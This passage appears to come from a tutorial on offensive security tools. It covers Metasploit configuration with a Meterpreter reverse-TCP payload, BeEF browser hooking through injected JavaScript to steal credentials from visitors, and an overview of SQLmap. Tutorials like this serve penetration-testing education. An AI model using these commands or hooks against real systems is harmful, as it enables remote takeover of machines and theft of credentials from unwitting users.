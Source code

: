    - Set the target and payload:

   ```bash
   set RHOSTS <target IP>
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST <your IP>
   ```

   - Run the exploit:

   ```bash
   exploit
   ```

   - If successful, you’ll gain access to the target system.

### 2. **BeEF (Browser Exploitation Framework)**

**Overview**:
BeEF is a powerful tool focused on exploiting web browsers. It allows attackers to hook web browsers and execute commands on the hooked browsers, making it a versatile tool for client-side exploitation.

**Key Features**:
- Hook browsers through malicious websites or phishing attacks.
- Execute a wide range of commands on the hooked browsers.
- Integrates with other tools like Metasploit for enhanced exploitation.

**Getting Started with BeEF**:

1. **Launching BeEF**:

   ```bash
   beef-xss
   ```

   - Access the BeEF web interface at `http://localhost:3000/ui/panel` using the default credentials.

2. **Hooking a Browser**:
   - BeEF provides a "hook" JavaScript code that you can inject into a webpage.
   - When a target visits the page, their browser will be hooked into BeEF, allowing you to control it.

3. **Executing Commands**:
   - Use the BeEF interface to execute commands on the hooked browser, such as stealing credentials, redirecting to malicious sites, or gathering browser data.

### 3. **SQLmap**

**Overview**:
SQLmap is an open-source tool used to automate the detection and exploitation of SQL injection vulnerabilities. It supports a wide range of database management systems and can be used to perform database fingerprinting, data extraction, and even command execution.

**Key Features**:
- Automated detection and exploitation of SQL injection vulnerabilities.
- Supports multiple database systems (MySQL, PostgreSQL, Oracle, MSSQL, etc.).
- Ability to extract data, dump entire databases, and execute commands on the database server.

